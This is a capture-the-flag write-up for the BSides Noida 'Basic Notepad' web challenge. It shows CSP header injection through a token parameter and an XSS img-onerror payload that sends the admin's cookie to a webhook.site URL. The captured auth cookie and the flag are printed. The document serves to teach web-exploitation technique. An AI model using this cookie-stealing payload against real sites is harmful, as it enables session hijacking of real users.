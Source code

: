 # BSides Noida CTF - Basic Notepad (24 solves)

> Create a note and share with admin :eyes:
Note : Bruteforce is not required.

**Category**: web

**Given**: 
- Website

**Requirements**: N/A

**Solution Files**: N/A

**TL;DR**: Inject policy into Content Security Policy (CSP) header, perform XSS to exfiltrate admin cookies.

### Overview
TODO

### Exploit

Create a random account and log in.
![Notepad Editor](images/editor.png)

Create image tag with fake src so onerror is called:
```html
<img src=fake onerror="window.location='https://webhook.site/MYUUID?x='+document.cookie">
```

Pressing review and looking at Devtools shows that the GET request CSP header:

```
content-security-policy
	script-src 'none'; object-src 'none'; base-uri 'none'; script-src-elem 'none'; report-uri /report/THETOKEN
```

```
http://ctf.notepad1.bsidesnoida.in/review?msg=THEMESSAGEINBASE64token=THETOKEN
```

The token that we can control appears in the CSP header at the end! We can inject arbitrary policies by changing token:

```
http://ctf.notepad1.bsidesnoida.in/review?msg=THEMESSAGEINBASE64&token=abcd;script-src-attr%20*%20%27unsafe-inline%27
```

Reviewing & submitting to admin, we get a request hit on webhook, with an auth cookie in the query string:
`auth=YWRtaW46djNyeTUzY3IzdFA0c3N3MHJkZGRk`

Using a cookie editor and changing the auth cookie to the admin's, we get the flag.

![Flag page](images/flag.png)

**Flag**: BSNoida{s0me_b4s1c_CSP_1nj3ct10n}